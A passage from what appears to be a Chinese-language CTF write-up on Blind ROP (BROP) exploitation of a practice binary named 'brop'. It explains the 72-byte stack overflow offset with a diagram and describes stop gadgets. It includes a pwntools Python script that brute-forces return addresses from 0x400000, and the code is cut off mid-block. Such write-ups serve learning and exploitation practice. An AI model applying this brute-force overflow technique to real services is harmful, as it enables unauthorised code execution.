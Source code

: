 可以得出栈偏移为72，要注意的是，崩溃意味着我们覆盖到了返回地址，所以缓冲区应该是发送的字符数减一，即 buf(64)+ebp(8)=72。该题并没有开启 Canary，所以跳过爆破Canary的过程。

画个图来表示一下栈中的情况：

```python
                       +---------------------------+
                       |           ret             | 
                       +---------------------------+
                       |            a              | 递增a字符串覆盖ebp位置
                ebp--->+---------------------------+
                       |            a+             | 递增a字符串占位填满栈空间
                       |           ....            |        .....
                       |            a+             | 递增a字符串占位填满栈空间
                       |            a+             | 递增a字符串占位填满栈空间
                       |            a+             | 递增a字符串占位填满栈空间
                       |            a+             | 递增a字符串占位填满栈空间
     		   input-->+---------------------------+

```

## 2、寻找stop gadget
当我们想办法寻找gadget的时候，并不知道程序具体是什么样的，所以需要控制返回地址进而去猜测gadget。那当我们控制返回地址时，一般会出现三种情况

+ 程序直接崩溃：ret地址指向的是一个程序内不存在的地址
+ 程序运行一段时间后崩溃：比如运行自己构造的函数，该函数的返回地址指向不存在的地址
+ 程序一直运行而不崩溃

stop gadget一般指的是，但程序执行这段代码时，程序进入无限循环，这样使得攻击者能够一直保持连接状态，并且程序一直运行而不崩溃。就像蛇吃自己的尾巴一样，stop gadget最后的ret结尾地址就是程序开启的地址（比如main函数地址）

由于看不到二进制程序所以依然还需要使用穷举的方式不断的尝试每一个地址，所以我们从初始的地址0x400000开始，通过循环，不断累加地址进行尝试（前面检测程序保护讲了为什么初始地址是0x400000）。有了循环之后就需要考虑循环终止条件，终止条件可以参考stop gadget的特性：在执行stop gadget的时候程序会回到初始状态并且没有发生崩溃。那么我们可以利用这一特性，使用前面找到的72字节填满栈空间，之后接上穷举的地址，此时穷举地址覆盖了ret地址，那么接下来就会执行穷举地址，如果此时程序发生崩溃就进行下一次循环，如果没有崩溃则打印该地址

循环内容：递增地址，尝试可能的stop gadget

循环终止条件：程序不发生崩溃

执行目的：确定stop gadget为后面查找brop gadget、puts plt、puts got做准备

exp如下：

```python
from pwn import *
 
def get_stop():
    addr = 0x400000
    while 1:
        sleep(0.1)
        addr += 1
        try:
            print "Now,trying the address is ",hex(addr)
            p = process('./brop')
            p.recvuntil("WelCome my friend,Do you know password?\n")
            payload = 'a'*72 + p64(addr)
            print "Now,the payload is ",payload
            p.sendline(payload)
            data = p.recv()
            p.close()
            if data.startswith('WelCome'):
                return addr
            else:
                print "Find one success addr : 0x%x"%(addr)
        except EOFError as e:
            p.close()
            print "Find a Bad addr,that is :0x%x and try next address"%addr
        except:
```